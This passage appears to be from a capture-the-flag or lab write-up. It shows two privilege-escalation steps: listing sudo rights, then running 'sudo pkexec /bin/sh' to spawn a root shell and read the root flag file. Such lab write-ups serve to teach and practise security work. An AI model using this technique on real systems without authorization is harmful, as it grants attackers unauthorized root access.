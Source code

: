 1. Privilege escalation enumeration to identify sudo permissions and potential exploitation vectors

```bash
sudo -l
```

<img width="722" height="162" alt="SCREEN08" src="https://github.com/user-attachments/assets/fcfedd9b-6dbb-49db-9dba-82bf1fffa179" />

2. Exploitation using pkexec binary with sudo privileges. Reference [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec) for `pkexec` exploitation techniques

```bash
sudo pkexec /bin/sh
cat /root/root.txt
```

<img width="719" height="286" alt="SCREEN09" src="https://github.com/user-attachments/assets/4eb6eeb4-b067-41b9-9ec2-1f1811e93a1d" />
